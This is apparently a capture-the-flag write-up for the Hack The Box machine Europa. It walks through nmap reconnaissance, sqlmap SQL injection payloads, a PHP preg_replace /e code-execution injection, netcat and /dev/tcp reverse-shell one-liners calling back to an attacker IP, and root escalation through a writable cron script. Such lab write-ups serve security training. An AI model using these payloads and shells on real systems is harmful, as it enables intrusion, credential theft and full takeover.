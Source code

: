 # Europa - 10.10.10.22

## Nmap

```
root@kingpin:~# nmap -sV -sC europacorp.htb
```
``sV`` for determining the service and ``sC`` for default script produces the output of:
```
Host is up (0.11s latency).
Not shown: 997 filtered ports
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 6b:55:42:0a:f7:06:8c:67:c0:e2:5c:05:db:09:fb:78 (RSA)
|   256 b1:ea:5e:c4:1c:0a:96:9e:93:db:1d:ad:22:50:74:75 (ECDSA)
|_  256 33:1f:16:8d:c0:24:78:5f:5b:f5:6d:7f:f7:b4:f2:e5 (EdDSA)
80/tcp  open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
443/tcp open  ssl/ssl Apache httpd (SSL-only mode)
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
| ssl-cert: Subject: commonName=europacorp.htb/organizationName=EuropaCorp Ltd./stateOrProvinceName=Attica/countryName=GR
| Subject Alternative Name: DNS:www.europacorp.htb, DNS:admin-portal.europacorp.htb
| Not valid before: 2017-04-19T09:06:22
|_Not valid after:  2027-04-17T09:06:22
|_ssl-date: TLS randomness does not represent time
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

``DNS:www.europacorp.htb, DNS:admin-portal.europacorp.htb`` is interesting. DNS will not resolve this address, so have to add it to hosts file.

## Accessing admin portal

In ``/etc/hosts`` add an entry for admin-portal.europacorp.htb at 10.10.10.22.
- Port is 443 so do not forget to use SSL when making a request.
- Request https://admin-portal.europacorp.htb/login.php in burp and save the request to ``europa.req``
- ``sqlmap -r europa.req --risk 3 --level 5 --force-ssl --dbms=mysql``
- ``sqlmap -r europa.req --risk 3 --level 5 --force-ssl --dbms=mysql --dump``

Results:
```
Parameter: email (POST)
    Type: boolean-based blind
    Title: MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause
    Payload: email=123@mail.com' RLIKE (SELECT (CASE WHEN (9325=9325) THEN 0x313233406d61696c2e636f6d ELSE 0x28 END))-- CEsa&password=123

    Type: error-based
    Title: MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: email=123@mail.com' OR (SELECT 1273 FROM(SELECT COUNT(*),CONCAT(0x716b627a71,(SELECT (ELT(1273=1273,1))),0x71716a7871,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- cyKd&password=123

    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 OR time-based blind
    Payload: email=123@mail.com' OR SLEEP(5)-- PaLf&password=123
---

...

Database: admin
Table: users
[2 entries]
+----+----------------------+--------+---------------+----------------------------------+
| id | email                | active | username      | password                         |
+----+----------------------+--------+---------------+----------------------------------+
| 1  | admin@europacorp.htb | 1      | administrator | 2b6d315337f18617ba18922c0b9597ff |
| 2  | john@europacorp.htb  | 1      | john          | 2b6d315337f18617ba18922c0b9597ff |
+----+----------------------+--------+---------------+----------------------------------+
```

First thing is trying the following creds for ssh, but it does not work.

``dashboard.php`` is pretty worthless as there is nothing to fuzz. ``tools.php`` on the other hand it used for generating openvpn config file. Let's look with burp:

```
POST /tools.php HTTP/1.1
Host: admin-portal.europacorp.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Referer: https://admin-portal.europacorp.htb/tools.php
Cookie: PHPSESSID=8vo6rh9gilkmq5h9e32r75ocq6
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 1694

pattern=/ip_address/&ipaddress=69.69.13.37;&text="openvpn": {
        "vtun0": {
                "local-address": {
                        "10.10.10.1": "''"
                },
                "local-port": "1337",
                "mode": "site-to-site",
                "openvpn-option": [
                        "--comp-lzo",
                        "--float",
                        "--ping 10",
                        "--ping-restart 20",
                        "--ping-timer-rem",
                        "--persist-tun",
                        "--persist-key",
                        "--user nobody",
                        "--group nogroup"
                ],
                "remote-address": "ip_address",
                "remote-port": "1337",
                "shared-secret-key-file": "/config/auth/secret"
        },
        "protocols": {
                "static": {
                        "interface-route": {
                                "ip_address/24": {
                                        "next-hop-interface": {
                                                "vtun0": "''"
                                        }
                                }
                        }
                }
        }
}
```

Presumably it takes ip address and places it to ``"remote-address": "ip_address"``. Pattern parameter points out that it might as well be PHP regex.

>Several high profile arbitrary code execution vulnerabilities in PHP web applications stem from improper handling of PCRE (Perl Compatible Regular Expression) functions. PCRE is designed to implement regular expressions for the preg_ functions in PHP (such as preg_match and preg_replace). Under most circumstances the PCRE engine is completely safe. It does, however, provide the /e modifier which allows evaluation of PHP code in the preg_replace function. This can be extremely dangerous if used carelessly.
The preg_replace function, when used with the /e modifier and supplied with a PHP function extends the functionality of the replace to allow a callback.
- Source: [MadIrish.net](http://www.madirish.net/402)

Try something simple using /e option on pattern like:
```
pattern=%2Fip_address%2Fe&ipaddress=system(whoami);&text=

Result: www-data
```

Sweet, we have code execution. Time to pop a shell

- set up netcat listener ``nc -lvnp 6969``
- get netcat reverse shell ``rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.15.48 6969 >/tmp/f``
  - Source: [Pentest monkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
- url encode '&'
- surround with quotation marks in order to deal with '/'

```
pattern=%2Fip_address%2Fe&ipaddress=system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>%261|nc 10.10.15.48 6969 >/tmp/f')&text=
```

## Priv esc

Now start with basic recon, check groups (obv no sudo this time), suid bits and just browse files. Eventually we find a lovely script in `cronjobs` directory.

```php
#!/usr/bin/php
<?php
$file = '/var/www/admin/logs/access.log';
file_put_contents($file, '');
exec('/var/www/cmd/logcleared.sh');
?>
```

There is no crontab for www-data, possibly the script gets executed by root. Another great piece of news is that there is no ``/var/www/cmd/logcleared.sh``, so might as well just make one.

- set up another nc listener `nc -nlvp 666`
- create a file
  - ``$ echo '#!/bin/bash' > /var/www/cmd/logcleared.sh``
  - ``$ echo '/bin/bash -i >& /dev/tcp/10.10.15.48/666 0>&1' >>/var/www/cmd/logcleared.sh``
- add exec permissions ``$ chmod +x /var/www/cmd/logcleared.sh``
- go celebrate your victory

```
root@kingpin:~# nc -nlvp 666
listening on [any] 666 ...
connect to [10.10.15.48] from (UNKNOWN) [10.10.10.22] 35012
bash: cannot set terminal process group (1901): Inappropriate ioctl for device
bash: no job control in this shell
root@europa:~#
```
